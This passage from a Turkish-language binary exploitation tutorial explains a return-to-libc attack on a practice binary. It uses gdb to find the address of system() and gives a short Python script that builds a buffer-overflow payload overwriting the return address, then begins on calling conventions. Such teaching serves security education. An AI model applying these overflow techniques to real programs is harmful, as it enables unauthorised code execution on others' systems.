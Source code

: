 Kullanımı gayet basit (`man system`):
```
SYNOPSIS
       #include <stdlib.h>

       int system(const char *command);

DESCRIPTION
       The  system()  library  function  behaves as if it used fork(2) to create a
       child process that executed the shell command specified  in  command  using
       execl(3) as follows:

           execl("/bin/sh", "sh", "-c", command, (char *) NULL);

       system() returns after the command has been completed.
```
Bu fonksiyona sadece bir komutu argüman sağlamamız lazım, o da bizim için komutu bir
child process altında `execl` fonksiyonu ile çalıştıracak.

Sanırım sorunun farkına varıyorsunuz, `system`in adresine dönüş yaparak `system`i çağırabiliriz,
ama nasıl `/bin/sh`ı bir argüman olarak geçeceğiz ki? Merak etmeyin buna geleceğiz, önce bir
`system`in adresine dönelim. Bunun için önce `system`in adresine ihtiyacımız var.
Bunu bulmanın birkaç yolu var, `gdb` ile yapabiliriz:
```
gdb ./0x2.elf
run
```
Burda input kısmına Ctrl+C yaparak programa interrupt gönderebilirz, ya da uzun bir
metin girerek segfault'a sebep olabiliriz, sadece bir şekilde programı sonlandırmamız
lazım, bunun için breakpointde koyabilirsiniz, bundan sorna tek yapmanız gerek `system`
adresini print etmek:
```
(gdb) p system
$1 = {<text variable, no debug info>} 0x7ffff7e26c30 <system>
```
Komutu ile `system` fonksiyonun adresini alabilirsiniz. Hadi bunu dönüş adresine
yazmak için exploitimizi yazalım:
```python
from struct import pack

filler  = b"A"*40
system  = pack("<Q", 0x<system'in adresi>)

f = open("/tmp/ex", "wb")
f.write(filler+system)
f.close()
```
Fakat henüz hazır değiliz, bir şekilde, `/bin/sh`'ı argüman olarak `system`e vermemiz lazım.

Assembly'de bir fonksiyonun diğer fonksiyonu çağırmadan önce yapması gerekenleri, argümanların
nasıl fonksiyonlar arasında iletileceğini ve de dönüş değerinin nasıl yapılacağını belirten bir
standart var. Biz buna **Calling Convention** diyoruz. Farklı mimarilerin ve farklı işletim sistemlerinin
conventionları farklı. Ama genel olarak terimler aynı. Hadi aşağıdaki örnek üzerinden gidelim:
```c
#include <stdlib.h>

void foo(){
    return;
}

void main(){
    foo();
    return 0;
}
```